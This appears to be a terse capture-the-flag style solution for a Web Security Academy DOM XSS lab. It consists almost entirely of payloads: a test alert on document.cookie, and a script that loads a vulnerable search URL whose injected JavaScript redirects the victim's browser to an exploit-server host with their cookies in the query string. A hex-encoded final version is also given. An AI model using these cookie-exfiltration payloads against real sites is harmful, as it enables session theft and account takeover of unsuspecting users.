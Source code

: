 ## Check your cookie session:
"-(window["document"]["location"]="/?"+window["document"]["cookie"])-"


## TEST Payload:
burpdomxss","test":alert(window["document"]["cookie"])}//


## The Exploit before preparing:
<script>
location='https://<CHANGE-HERE>.web-security-academy.net/?SearchTerm="-(window["document"]["location"]="https://exploit-<CHANGE-HERE>%2eexploit-server%2enet/?"+window["document"]["cookie"])-"';
</script>

## Before ENCODE the exploit by using BurpSuite Decoder:
"-(window["document"]["location"]="https://exploit-0af4008003a936d2c1563c1001a30084%2eexploit-server%2enet/?"+window["document"]["cookie"])-"

## THE ACTUAL EXPLOIT:
<script>
location='https://0a3200d2032c36d2c1163a22005f00df.web-security-academy.net/?SearchTerm=%22%2d%28%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%6c%6f%63%61%74%69%6f%6e%22%5d%3d%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%34%30%30%38%30%30%33%61%39%33%36%64%32%63%31%35%36%33%63%31%30%30%31%61%33%30%30%38%34%25%32%65%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%25%32%65%6e%65%74%2f%3f%22%2b%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%63%6f%6f%6b%69%65%22%5d%29%2d%22';
</script>
